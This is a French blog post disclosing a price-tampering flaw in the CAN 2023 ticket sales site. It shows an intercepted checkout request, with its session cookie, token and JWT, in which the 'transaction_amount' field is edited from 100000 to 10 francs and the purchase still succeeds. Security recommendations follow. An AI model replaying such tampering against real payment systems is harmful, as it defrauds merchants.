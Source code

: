```yaml
---
title : "CAN 2023 : La faille qui permettait d'acheter un billet de match à n'importe quel prix"
date : 2024-01-19T09:49:04Z
draft : false
images: [/images/1.png]
featuredImage: "/images/1.png"
featuredImagePreview: "/images/1.png"
---
```


# 🧟 La faille qui permettait d'acheter un billet de match à n'importe quel prix

## Introduction
Dans cet article, nous allons examiner une vulnérabilité découverte sur le site de vente de billets pour la Coupe d'Afrique des Nations de 2023 https://can2023-tickets.com/. 

Cette faille permet à une personne mam intentionnée d'acheter des billets à un prix inférieur à leur valeur réelle. Nous allons démontrer comment exploiter cette vulnérabilité et, en conclusion, donner des recommandations pour prévenir de telles failles à l'avenir.

## Détails de l'exploitation
L’exploitation est relativement très simple. 
D'abord on choisi le ticket qu'on veut acheter avec tous les détails à savoir la catégorie, la zone et le siège. 
Comment on peut le voir avec la capture ci-dessous, on a tous les éléments nécessaires et le prix du billet.

![Alt text](/images/3.png)

Ici on intercepte la requête qui permet de valider le panier pour effectuer le paiement avec Burpsuite.

![Alt text](/images/4.png)


Contenu de la requête :

```
POST /order HTTP/1.1
Host: crossroad-africa.net
Cookie: _session_id=8ababf97261c1f2d274494a5339a5965
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Origin: https://can2023-tickets.com
Referer: https://can2023-tickets.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
Connection: close

operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw&currency=xof&transaction_amount=100000&payer=

```
Ici nous avons les données qui sont envoyés à l'API de paiement.
Nous avons le Token de l'opération, la monnaie utilisée et le prix du billet.
Nous avons remarqué que c'est le paramètre "transaction_amount" qui envoi le prix du billet à l'API de paiement.

```
operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB
&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw
&currency=xof
&transaction_amount=100000
&payer=

```

On peut mettre le prix qu'on veut sur ce paramètre pour modifier le prix du billet. 

Dans notre exemple, nous allons essayé avec 10 Francs.


```
operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB
&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw
&currency=xof
&transaction_amount=10
&payer=

```

Et nous remarquons que le changement de prix a été effectué sans problème.

![Alt text](/images/6.png)


Après paiement, les billets sont envoyés par mail.

![Alt text](/images/8.png)

## Recommandations


* Mettre en place des tests de pénétration réguliers : Effectuez des tests de pénétration réguliers pour identifier et corriger les vulnérabilités avant qu'elles ne soient exploitées.

* Utiliser une validation d'entrée robuste : Assurez-vous que le site Web utilise une validation d'entrée robuste pour empêcher les utilisateurs d'injecter du code malveillant.


* Mettre à jour les composants tiers : Maintenez les composants tiers utilisés sur le site Web à jour pour éviter les vulnérabilités connues.


* Mettre en place une authentification et une autorisation solides : Implémentez un système d'authentification et d'autorisation robuste pour empêcher les accès non autorisés.


* Former les développeurs : Formez les développeurs aux meilleures pratiques en matière de sécurité pour éviter les vulnérabilités courantes. 